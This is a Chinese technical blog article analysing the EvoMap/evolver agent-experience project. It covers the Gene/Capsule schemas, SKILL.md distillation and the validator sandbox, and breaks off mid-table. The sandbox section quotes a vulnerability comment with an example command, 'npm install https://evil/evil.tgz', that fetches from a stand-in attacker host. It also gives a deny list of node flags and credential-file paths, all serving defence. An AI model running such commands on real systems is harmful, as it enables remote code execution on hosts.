



> **"经验复用"的核心难题，不是"如何提供更多经验"，而是"如何把经验编码成一个紧凑的、面向控制的、可进化的对象"。**
>
> —— EvoMap/evolver 论文《From Procedural Skills to Strategy Genes》结论

2026 年 4 月，一篇叫《From Procedural Skills to Strategy Genes》的论文挂上 arXiv（编号 2604.15097），作者是 Junjie Wang、Yiming Ren、Haoyang Zhang。

论文抛出的问题很朴素，但答案有点反直觉：**当你把 Agent 踩过的坑写成一份详细的 SKILL.md，Agent 真的会变强吗？**

答案是：**不一定，甚至可能变弱。**

论文在 45 个科学代码求解场景上跑了 **4,590 次受控对照试验**，得出三条结论：

1. 面向文档的 Skill 包提供的控制信号**稀疏且不稳定**——把一个紧凑的经验对象扩写成完整文档包，常常不但没帮助，还会拉低整体均值；
2. **表示形式本身是一阶因素**（first-order factor）——紧凑的 **Gene** 表示拿到最强平均分，在结构扰动下依然稳，并且胜过"同预算"的 Skill 片段；把文档材料重新贴回 Gene 上，通常**削弱**而非增强它；
3. Gene 不只是一次性控制（test-time control），更是**迭代经验累积的更好载体**——失败历史挂在 Gene 上比挂在 Skill 或自由文本上有效；可编辑结构比内容本身更重要；失败信息最有效的形式是**蒸馏成紧凑警告**，而不是朴素追加。

在 CritPt 基准上，gene-evolved 系统把配对的基座模型从 **9.1% 拉到 18.57%**，从 **17.7% 拉到 27.14%**。

把这套理论落成工程实现的开源项目是 **[EvoMap/evolver](https://github.com/EvoMap/evolver)**（8,706⭐ / 845 fork，GPL-3.0-or-later，JavaScript，2026-02-01 建仓，2026-10-24 最近提交）。它现在是 EvoMap 进化网络的核心引擎。

这篇文章要拆的是：**Gene / Capsule / EvolutionEvent 这三件套到底长什么样、为什么这么设计、以及这套"经验表示"哲学对我们在做 Harness 时有什么可迁移的启发。**

---

## 一、项目定位：它解决的是哪个层面的问题

先说清楚 Evolver **不是**什么，这很重要。

**它不是代码补丁器。** README 里写得很直白：

> Evolver is a prompt generator, not a code patcher.

它**不自动改你的源码**，**不执行任意 shell 命令**（有一道白名单，见第五节），**核心功能不需要联网**。

那它是什么？一次进化循环（evolution cycle）里它做四件事：

| 步骤 | 动作 | 产物 |
|---|---|---|
| 1 | 扫描 `memory/` 目录里的运行日志、错误模式、信号 | 原始信号流 |
| 2 | 从本地 GEP 资产库里选出最匹配的 Gene 或 Capsule | 选中的资产 + 打分理由 |
| 3 | 组装出严格受协议约束的 **GEP Prompt** | stdout 上的提示词 |
| 4 | 写入一条可审计的 **EvolutionEvent** | `events.jsonl` 追加行 |

第 3 步的产物是关键：**Evolver 交付的是"协议约束的提示词 + 可审计的事件账本"，不是代码改动。** 宿主运行时（Cursor / Claude Code / Codex / opencode / OpenClaw）消费这个提示词并执行。

### 1.1 它在 Harness 6 件套矩阵里的位置

| 组件 | Evolver 的参与度 |
|---|---|
| **Rule** | ⚠️ 间接——Gene 的 `constraints`（`max_files` / `forbidden_paths`）本质是机器可读的硬边界 |
| **Skill** | 🔁 **反向对偶**——`skill2gep.js` 把 SKILL.md 反向蒸馏成 Gene + Capsule |
| **Sub-Agent** | ❌ 不涉及 |
| **Workflow** | ⚠️ 部分——`setup-hooks` 在 6 个平台（Cursor / Claude Code / Codex / Kiro / opencode / OpenClaw）挂生命周期钩子 |
| **Script** | ✅ **强涉及**——`validation` 数组里的可执行断言是 Gene 的证据来源 |
| **MCP** | ⚠️ 通过 Proxy mailbox（本地 HTTP + JSONL 邮箱）跟 Hub 通信 |

**主战场是 Skill + Script 的交叉地带**：它研究的是"经验用什么形式存下来，才能让 Agent 在下一轮真的用得上"。

### 1.2 Less is More 检查：哪些是"模型自己能学会的"，哪些是"外部必需的"

这一节我用项目自己的一个反直觉证据来切分：

`skill2gep.js` 里有这么一段注释：

```javascript
// Max strategy steps kept on a distilled Gene. The old value (10) silently
// truncated multi-section Skills, dropping the *governance* tail
// (candidate-gating, Human Gate, Output Contract, rollback) that lives at the
// end of a well-formed SKILL.md. extractSteps emits each list item flatly, so
// a rich Skill (workflow + governance sections) yields ~25-27 short one-line
// steps; the cap must clear that to keep the tail. 28 covers a well-formed
// SKILL.md while staying compact (short one-liners, far below a full Skill's
// token weight).
const MAX_STRATEGY_STEPS = 28;
```

**28 这个数字是从 10 修上来的。** 原因很实在：SKILL.md 里的"治理尾巴"——候选门控、人工闸门、输出契约、回滚——通常排在文档末尾，而朴素的抽取逻辑会把它截掉。

于是切分标准出来了：

| 必须外部编码（模型学不会） | 可以让模型自己学（写在文档里就行） |
|---|---|
| **可执行的验证断言**（`validation: ["node test/guard.test.js"]`）——模型无法凭空知道自己改对了 | 步骤的详细展开说明（"先打开 X 再看 Y"） |
| **硬边界**（`max_files: 20`、`forbidden_paths: ['.git','node_modules']`）——模型会幻觉出越界路径 | 背景知识、术语解释 |
| **结构化触发器**（`signals_match: ["log_error","missing_validation"]`）——模型看不见自己刚犯了哪类错 | 语气、风格偏好 |
| **执行证据**（Capsule 的 `execution_trace`）——模型无法自证 | 常识性推理链 |

**换句话说：Evolver 的核心主张是"把文档里那些控制力最强、但最容易被 LLM 忽略的部分抽出来，结构化地单独存"。** 这就是论文说的"紧凑的、面向控制的表示"。

---

## 二、三件套架构：Gene / Capsule / Event



### 2.1 Gene：控制密集型的策略基因

Gene 是整个体系的原子。它的 schema 定义在 `src/gep/schemas/gene.js`（156 行，**未混淆**，可完整阅读）。

真实字段（我从源码原样摘出）：

```javascript
const VALID_CATEGORIES = ['repair', 'optimize', 'innovate', 'explore'];

// EvoX agent-core enums consumed via the gene → router/tool-gate
// pipeline (`crates/evox-evo-session/src/lifecycle.rs:345-388`). Keep
// these strings exact — the Rust side does case-sensitive matching.
const VALID_ROUTING_TIERS = ['cheap', 'mid', 'expensive'];
const VALID_REASONING_LEVELS = ['off', 'low', 'medium', 'high'];
const VALID_TOOL_POLICY_SEVERITIES = ['warn', 'block'];

const GENE_DEFAULTS = {
  type: 'Gene',
  id: null,
  category: 'innovate',
  signals_match: [],      // 触发器：什么信号下这条 Gene 适用
  strategy: [],           // 怎么做：有序步骤
  validation: [],         // 怎么证明：可执行断言
  constraints: {
    max_files: 20,
    forbidden_paths: ['.git', 'node_modules'],
  },
  preconditions: [],
  summary: '',
  schema_version: '1.6.0',
  epigenetic_marks: [],   // 表观遗传标记（成功/失败）
  learning_history: [],
  anti_patterns: [],
  routing_hint: null,     // 给模型路由器的成本提示
  tool_policy: null,      // 给工具闸门的策略提示
};
```

**Gene 的设计有三条值得单独学的原则：**

**（1）"不适配"必须显式声明为 null，而不是省略。**

源码里有一段很讲究的注释：

```javascript
// Optional EvoX-side hints. Null = "no opinion, let the router /
// tool dispatcher take its historical fast path". Genes that
// genuinely benefit from cheap-tier classification or restricted
// tools opt in by setting these to a non-null object.
routing_hint: null,
tool_policy: null,
```

`null` ≠ `{}` ≠ 缺省。`null` 是**"我没意见，走你的历史快路径"**，是一个有语义的取值。

**（2）归一化时"宁可不表达，也不要表达错"。**

```javascript
function normalizeToolPolicy(raw) {
  if (!raw || typeof raw !== 'object') return null;
  const out = {};
  // Filter falsy entries first, then only keep the field if anything
  // survives. A raw input like { allow_only: ['', ''] } would otherwise
  // emit `allow_only: []` here; on the Rust executor gate
  // (`crates/evox-agent-core/src/types.rs::ToolGate`) an empty
  // `allow_only` means "allow zero tools" and blocks every tool call.
  if (Array.isArray(raw.allow_only)) {
    const cleaned = raw.allow_only.map(String).filter(Boolean);
    if (cleaned.length > 0) out.allow_only = cleaned;
  }
  ...
}
```

这段代码防的是一个**非常具体的坑**：`allow_only: []` 在 Rust 侧的 `ToolGate` 语义是"**允许零个工具**"——所有工具调用全被拦死。如果 JS 侧老老实实传空数组过去，整个 Agent 会静默瘫痪。

**注释还额外说明了为什么"丢弃残片"比"传半个对象"更安全**：Rust 侧对 tier 字符串做严格匹配，一个残缺的 `routing_hint` 会匹配失败，然后**静默地按"没有提示"路由**——比明确说"我不知道"更危险。

**（3）数组字段必须做拷贝。**

```javascript
// Always create fresh array copies — never hold references to GENE_DEFAULTS arrays
// or to partial's arrays, so downstream .push() calls cannot contaminate other genes.
g.signals_match = Array.isArray(g.signals_match) ? g.signals_match.slice() : [];
```

一个小细节，但踩过坑的人都懂：`GENE_DEFAULTS` 里的数组如果被 `.push()` 污染，**所有 Gene 都会多出同一条触发器**。这种 bug 在生产里可以潜伏几个月。

### 2.2 Capsule：带执行证据的成功胶囊

Capsule 的 schema 在 `src/gep/schemas/capsule.js`（170 行，同样未混淆）。它比 Gene 多出的关键字段：

```javascript
const CAPSULE_DEFAULTS = {
  type: 'Capsule',
  id: null,
  schema_version: SCHEMA_VERSION,
  trigger: [],
  gene: null,
  summary: '',
  confidence: 0,
  blast_radius: { files: 0, lines: 0 },      // 影响面：动了几个文件几行
  outcome: { status: 'failed', score: 0 },    // 默认失败 —— 不是默认成功
  success_streak: 0,
  success_reason: null,
  gene_library_version: null,
  env_fingerprint: null,                      // 环境指纹：这套经验在哪个环境验证过
  source_type: null,                          // generated / reused / reference / user_authored
  reused_asset_id: null,
  derivation_tokens: null,                    // 真实测量的 token 成本
  a2a: { eligible_to_broadcast: false },
  content: null,
  diff: null,
  strategy: [],
  execution_trace: [],                        // 执行痕迹 —— 证据本体
  asset_id: null,
  visibility: null,                           // private / unlisted / public
  scope: null,
  cost_tier: null,                            // cheap / standard / premium
  pack_of: null,
  author: null,
};
```

**三个默认值的选择本身就是设计声明：**

- `outcome.status` 默认 `'failed'` —— **没有证据的成功不算成功**；
- `confidence` 默认 `0` —— 置信度要靠证据赚回来；
- `a2a.eligible_to_broadcast` 默认 `false` —— 经验默认**私有**，要显式批准才能上网络。

`derivation_tokens` 的注释也值得抄：

```javascript
// Real measured token cost of deriving this capsule (input+output), captured
// from the proxy trace meter at solidify time. null when the proxy was
// inactive or usage was unobserved (consumers fall back to an estimate).
// Shape: { input_tokens, output_tokens, total_tokens, basis:'measured' }.
```

注意 `basis: 'measured'` 这个字段——**它区分"实测"和"估算"**。一个诚实的成本账本必须能回答"这个数字是测出来的还是猜出来的"。

### 2.3 三个对象的分工



一句话概括三者的分工：

- **Gene 是"知识"**——可复用的策略本体；
- **Capsule 是"证据"**——某个 Gene 在某次具体执行中被证明有效；
- **Event 是"账本"**——每一次选择与固化的只追加记录。

三者分离带来一个直接好处：**知识可以共享，证据不能伪造，账本不可篡改。**

---

## 三、原语一：反向蒸馏 —— 从 SKILL.md 到 Gene

这是整个项目最有工程价值的部分，也是 `skill2gep.js`（1,056 行，48,752 字符，**未混淆**）干的事。

### 3.1 正向 vs 反向蒸馏

源码头部注释把两个方向讲得很清楚：

```javascript
// skill2gep.js -- Reverse distillation: take a locally-invoked Skill (Cursor,
// Claude Code, Codex, or any procedural SKILL.md) plus the real execution that
// just ran on top of it, and turn it into GEP assets (Gene + Capsule) that can
// be published to the EvoMap community.
//
// This module is the *inverse* of skillDistiller.js:
//   skillDistiller.js : capsule stream       -> Gene (forward distillation)
//   skill2gep.js      : Skill.md + 1 run     -> Gene + Capsule (reverse)
```

方向反过来了，值得停下来想一想这个不对称性：

| 方向 | 输入 | 输出 | 场景 |
|---|---|---|---|
| **正向**（`skillDistiller`） | 一串 Capsule 流 | 一个 Gene | 从成功历史里归纳通用策略 |
| **反向**（`skill2gep`） | 一个 SKILL.md + 一次真实执行 | Gene + Capsule | 把人写的 SOP 转成机器格式 |

**反向蒸馏的输入要求严格得多**，源码写了一条硬契约：

```javascript
// Design contract (mirrors ~/.cursor/skills/skill2gep/SKILL.md):
//   - Gene comes from the Skill text (plus its real execution trace),
//     validated via validateSynthesizedGene().
//   - Capsule is produced ONLY from a real execution trace. If the trace
//     is empty or zero blast radius, we refuse to emit a successful Capsule.
//   - Capsule.execution_trace MUST cover every entry in Gene.validation
//     (whitespace-normalized exact match) or we downgrade to Gene-only.
//   - All assets go through assetStore (which SHA-256-content-addresses them)
//     before upload.
```

三条约束里最狠的是第三条：**`Capsule.execution_trace` 必须逐条覆盖 `Gene.validation` 里的每一条命令**（空白归一化后精确匹配），否则**降级为 Gene-only**——不产出 Capsule。

这是**证据链的闭环检查**：Gene 说"我要用 `node test/x.js` 验证"，那 Capsule 的执行痕迹里就必须真的有这条命令跑过的记录。对不上，经验只能当"知识"用，不能当"证据"用。

### 3.2 一个被修好的 bug：治理尾巴不能丢

源码里有一段极有价值的注释（我前面引过，这里看完整版）：

```javascript
  // Return ALL matching sections concatenated, in document order. A SKILL.md
  // often spreads positive steps across several headed sections ("Quick
  // Workflow", "Human Gate Defaults", "Output Contract"); picking only the
  // first dropped the governance tail. Each section's title is preserved as a
  // step-context line so a trailing "## Human Gate" still contributes its
  // bullets. De-duplicated by section key.
  function pickSectionsAll(keywords) {
    const seen = new Set();
    const out = [];
    for (const k of Object.keys(sections)) {
      if (keywords.some((kw) => k.indexOf(kw) !== -1) && !seen.has(k)) {
        seen.add(k);
        out.push(sections[k]);
      }
    }
    return out.join('\n');
  }
```

改之前是 `pickSection()`——只取**第一个**匹配的章节；改之后是 `pickSectionsAll()`——取**所有**匹配章节，按文档顺序拼接，并保留每个章节的标题作为步骤上下文行。

**为什么这个改动重要？** 因为在一份写得好的 SKILL.md 里，**最有价值的部分往往在末尾**——候选门控、人工闸门、输出契约、回滚策略。而抽取时如果只取第一个章节，等于系统性地把"治理"扔了，只留"流程"。

源码甚至记录了抽取策略的历史摇摆：

```javascript
  // Extract ordered steps from a markdown block: every list item becomes its
  // own step, in document order. This is the pre-PR flat behaviour, kept
  // deliberately simple — an earlier version folded indented sub-bullets into
  // their parent step to look tidier, but that indentation logic grew a long
  // tail of edge cases (section-trim interaction, length-filtered parents,
  // cross-section indentation). Folding was only cosmetic; flat extraction
  // preserves the same governance tail with no indentation reasoning at all.
```

**"折叠缩进子条目看起来更整洁，但那个纯装饰性的逻辑长出了一长串边界情况（章节裁剪交互、长度过滤父项、跨章节缩进）。"**

这句话是整个软件工程的一则寓言：**为了视觉整洁引入的复杂度，最终会以 bug 的形式收账。** 这里的解法是"退回朴素扁平抽取，靠放大上限（10 → 28）来保住治理尾巴"。

### 3.3 CJK 兼容：中文 SKILL.md 也能被蒸馏

另一个容易被忽略但很实用的细节：

```javascript
  // Section keywords are matched against lower-cased headings. A SKILL.md may
  // be authored in Chinese (e.g. game-* skills use "## 何时使用" / "## 触发条件"),
  // whose heading key never contains an English token, so the CJK synonyms
  // below are required for those skills to contribute signals/strategy/avoid
```

作者（Shinjiyu）在 PR #112 里专门补了中文同义词表。**这是一个"看起来是小功能、实际决定能不能用"的细节**——如果你的 Skill 库里有中文 SKILL.md，没有这张表，蒸馏出来的 Gene 会是空的。

---

## 四、原语二：表观遗传 —— Gene 的成功与失败如何累积

论文说 Gene 是"更好的迭代经验累积载体"。落到代码上，这个机制叫 **epigenetics**（表观遗传）。

### 4.1 机制含义

我先从论文那句话反推它的工程含义：

> attached failure history is more effective in Gene than in Skill or freeform text, editable structure matters beyond content alone, and failure information is most useful when distilled into compact warnings rather than naively appended.

翻译成工程语言：

| 论文结论 | 工程含义 |
|---|---|
| 失败历史挂在 Gene 上更有效 | Gene 需要一个**可写的失败槽位**，且这个槽位必须影响未来的选择 |
| 可编辑结构比内容本身更重要 | 基因要能被**结构化地修改**（打标记、加反模式），而不是整段文本重写 |
| 失败信息最有效的形式是紧凑警告 | 失败应该被**蒸馏成 `anti_patterns`**，而不是把整段日志追加进去 |

Gene 上对应的三个字段：

```javascript
  epigenetic_marks: [],   // 带强度的成功/失败标记
  learning_history: [],   // 原始学习轨迹
  anti_patterns: [],      // 蒸馏出的"别再这么干"警告
```

### 4.2 为什么"标记"比"计数"更准

关键在 `epigenetic_marks` 存的是 **delta（带符号增量）** 而不是布尔值或计数。

看 `skill2gep.js` 里对学到的值的归一化逻辑（从混淆代码还原的语义）：信号值会被折算成一个 0 到 1 之间的强度，且只有当**分子与分母的路径前缀完全匹配**时才计入（`'foo/bar'` 必须以 `'foo/bar/'` 开头才算命中），否则计 0。

这就是"精度"：一条 Gene 的价值不由它命中多少次决定，而由**"在这条路径上，它是否每次都对"**决定。

表观遗传标记的衰减逻辑也一样——**一个很久以前的成功不应该永久霸榜**。我在 MVP 里用半衰期模型复刻了这一点（3.0 的半衰期，每次更新旧标记乘 0.5^(1/3)）。

---

## 五、原语三：安全边界 —— 沙箱与命令白名单

这一节是整个项目**工程质量最高**的部分，也是最值得直接抄走的部分。

`src/gep/validator/sandboxExecutor.js`（507 行，17,798 字符，**未混淆**）负责一件事：**在 Hub 下发的验证命令面前保证宿主机安全。**

### 5.1 架构：解析 → 断言 → 白名单 → 隔离



### 5.2 真实漏洞 GHSA-jxh8-jh77-xh6g

这段注释是全文最有说服力的部分：

```javascript
// Hard allowlist of executables the Hub-provided validation command may invoke.
// Any command whose first token is not in this set is rejected before spawn().
//
// This prevents command injection via Hub-delivered task.command strings even
// if Hub itself is compromised or mis-signs a task.
//
// GHSA-jxh8-jh77-xh6g: `npm` and `npx` used to be on this allowlist. They are
// arbitrary-code-execution-by-design (npm runs preinstall/install/postinstall
// lifecycle scripts; npx fetches and runs remote package `bin` entries), so a
// compromised/MitM'd Hub could issue `validation_commands: ["npm install
// https://evil/evil.tgz"]` and get RCE on every validator in one poll cycle.
// Validator nodes only ever need to run `node <script>`, so we drop npm/npx.
// Any legitimate validation that previously used `npx vitest run ...` must be
// rewritten by the gene author to `node node_modules/vitest/vitest.mjs ...`.
const ALLOWED_EXECUTABLES = new Set(['node']);
```

**这个漏洞模型值得所有做 Agent 沙箱的人抄在墙上：**

> 一旦 Hub 被攻陷或签名被误用，`npm install https://evil/evil.tgz` 这条命令能让**每一个 validator 节点在同一轮轮询里全部 RCE**。

修复动作是**把 `npm` / `npx` 从白名单里删掉**——不是因为它们"危险"，而是因为**validator 节点根本不需要它们**。白名单应该按"最小必要"来开，不是按"常用工具"来开。

代价是真实的，注释也承认：原来用 `npx vitest run ...` 的验证命令必须重写成 `node node_modules/vitest/vitest.mjs ...`。**安全加固必然有迁移成本，这是必须付的账。**

### 5.3 深度防御：连 `node` 自己都要防

```javascript
// Depth-in-depth: even though `node` is in ALLOWED_EXECUTABLES, reject the
// flags that turn it into an arbitrary-code evaluator. A legitimate Hub-
// delivered validation command should always be `node <script-file> [args]`,
// never `node -e "..."` or `node --require ./attacker-preload`. This closes
// the gap where validation_commands go straight from Hub to runInSandbox
// without passing through policyCheck.isValidationCommandAllowed().
const BLOCKED_NODE_FLAGS = new Set([
  '-e', '--eval',
  '-p', '--print',
  '-i', '--interactive',
  '-r', '--require',
  '--loader',
  '--experimental-loader',
  '--import',
  '--env-file',
  // Inspector: opens an UNAUTHENTICATED Node debug port (a remote-code-
  // execution channel) for the command's lifetime. A light `node <script>`
  // validation never needs it.
  '--inspect', '--inspect-brk', '--inspect-port', '--inspect-publish-uid',
  // Watch: keeps the process alive past its work, so validation hangs until
  // the sandbox SIGKILLs it at the timeout (self-inflicted DoS / slot burn).
  '--watch', '--watch-path', '--watch-preserve-output',
  // Module-resolution override: can redirect imports/requires to attacker-
  // chosen code paths.
  '--conditions', '-C',
]);
```

**逐条解读这 18 个禁用 flag，背后的攻击面各不相同：**

| Flag | 攻击面 |
|---|---|
| `-e` / `--eval` / `-p` / `--print` | 直接执行任意内联代码 |
| `-r` / `--require` / `--import` / `--loader` | 预加载攻击者模块 |
| `--inspect*` | **开一个未认证的调试端口 = 一条 RCE 通道** |
| `--watch` | 进程不退出，白烧沙箱槽位直到超时（自伤型 DoS） |
| `--conditions` / `-C` | 重定向模块解析路径 |

`--inspect` 那条尤其值得注意：**一个"看起来无害的 flag"可以是完整的远程代码执行通道。** 而 `--watch` 则是另一类——不造成代码执行，但能让攻击者（或误配置）**耗尽你的验证槽位**。

### 5.4 沙箱目录：软链与归属攻击

```javascript
function createSandboxDir() {
  // NOTE(windows): mode 0o700 is silently ignored on Windows. The sandbox
  // directory is NOT access-restricted on Windows; rely on OS user isolation
  // instead. This cannot be fully mitigated via fs.mkdirSync options alone.
  const base = path.join(os.tmpdir(), 'evolver-validator');
  // The base path is predictable, so on a shared host another local user
  // could pre-create it as a symlink and redirect every sandbox workdir
  // outside the intended boundary. mkdir first (EEXIST is fine), then lstat
  // and refuse anything that is not a real directory — the sticky bit on
  // /tmp prevents others from replacing our directory after this check.
  try {
    fs.mkdirSync(base, { recursive: true, mode: 0o700 });
  } catch (e) {
    if (!e || e.code !== 'EEXIST') {
      throw new Error('[sandboxExecutor] Failed to create sandbox base ' + base + ': ' + (e && e.message || e));
    }
  }
  const baseSt = fs.lstatSync(base);
  if (baseSt.isSymbolicLink() || !baseSt.isDirectory()) {
    throw new Error('[sandboxExecutor] Refusing sandbox base ' + base + ': exists and is ' +
      (baseSt.isSymbolicLink() ? 'a symlink' : 'not a directory'));
  }
  // A real directory is still not enough: a pre-existing base OWNED BY
  // ANOTHER USER lets that user rename/replace our task workdirs at will
  // (deletion rights come from the parent dir). Require ownership, and
  // self-heal loose permissions on a base we do own (chmod is safe then).
  // POSIX-only: Windows has no getuid and ignores these mode bits anyway.
  if (typeof process.getuid === 'function') {
    if (baseSt.uid !== process.getuid()) {
      throw new Error('[sandboxExecutor] Refusing sandbox base ' + base + ': owned by uid ' +
        baseSt.uid + ', not the current user (' + process.getuid() + ')');
    }
    if ((baseSt.mode & 0o077) !== 0) {
      fs.chmodSync(base, 0o700);
    }
  }
  ...
}
```

**三道检查，缺一不可：**

1. **不是软链**（`lstat` + `isSymbolicLink()`）——防止路径劫持；
2. **归属当前用户**（`uid !== getuid()` 就拒）——防止别人预建目录后改名替换；
3. **权限自愈**（`mode & 0o077` 非零就 `chmod 0700`）——只对自己拥有的目录 chmod 才安全。

而且作者诚实地标注了 **Windows 上的能力缺口**：`0o700` 在 Windows 上被静默忽略，没有 `getuid`，只能依赖 OS 用户隔离。**把做不到的事写出来，而不是假装做到了**——这是工程诚实。

### 5.5 最小化环境：把 HOME 指向空目录

```javascript
function buildSandboxEnv() {
  // Minimal env: strip credential-bearing vars. Redirect HOME / TMPDIR to an
  // os.tmpdir() path so that any child process that tries to read ~/.npmrc,
  // ~/.ssh/*, ~/.aws/credentials, or similar host-credential files ends up
  // in an empty scratch directory instead of the real user home.
  // PATH is preserved so that node remains resolvable -- the
  // ALLOWED_EXECUTABLES allowlist is the real gate against unwanted tools.
  const tmp = os.tmpdir();
  const fallbackPath = process.platform === 'win32'
    ? 'C:\\Windows\\System32'
    : '/usr/local/bin:/usr/bin:/bin';
  return {
    PATH: process.env.PATH || fallbackPath,
    HOME: tmp,
    USERPROFILE: tmp,
    TMPDIR: tmp,
    TMP: tmp,
    TEMP: tmp,
    LANG: 'C.UTF-8',
    LC_ALL: 'C.UTF-8',
    NODE_ENV: 'sandbox',
    EVOLVER_SANDBOX: '1',
  };
}
```

**只保留 `PATH`，其余全部重定向或剥离。** 注释里那句解释是精髓：

> PATH is preserved so that node remains resolvable -- the **ALLOWED_EXECUTABLES allowlist is the real gate** against unwanted tools.

**白名单才是真正的闸门，环境变量只是卫生措施。** 这个认知层次很清晰——很多人做沙箱会以为"清了环境变量就安全了"，其实是把安全寄托在了子进程的自觉上。

### 5.6 两道独立的命令白名单

README 里的 `Gene Validation Command Safety` 描述的是**第一道**（`policyCheck.isValidationCommandAllowed`）：

1. **Prefix whitelist**：只允许 `node` / `npm` / `npx` 开头；
2. **No command substitution**：拒绝反引号和 `$(...)`；
3. **No shell operators**：剥掉引号内容后拒绝 `;` `&` `|` `>` `<`；
4. **Timeout**：每条命令 180 秒上限；
5. **Scoped execution**：`cwd` 固定为仓库根。

而 `sandboxExecutor.js` 是**第二道**，规则更严（只允许 `node`，且禁 18 个 flag）。

**注意两道白名单不一致是有意的**：第一道管"本机固化时的自提验证命令"，第二道管"**Hub 下发的远程命令**"。**信任级别不同，闸门强度就该不同。** 这是个非常容易做错的设计——很多人会想当然地用同一套规则。

---

## 六、原语四：可复刻的最小实现（MVP）

上面讲的都是生产实现。**如果我要自己从零搭一个最小可行的版本，MVP 是什么？**

先回答"哪些必须、哪些可以省"：

| 组件 | MVP 必/可省 | 理由 |
|---|---|---|
| Gene schema（signals/strategy/validation/constraints） | ✅ **必** | 没有它就没有"结构化经验" |
| Capsule + 执行痕迹校验 | ✅ **必** | 没有它就无法区分"知识"和"证据" |
| Selector 打分 | ✅ **必** | 没有它经验库就退化成 prompt 堆 |
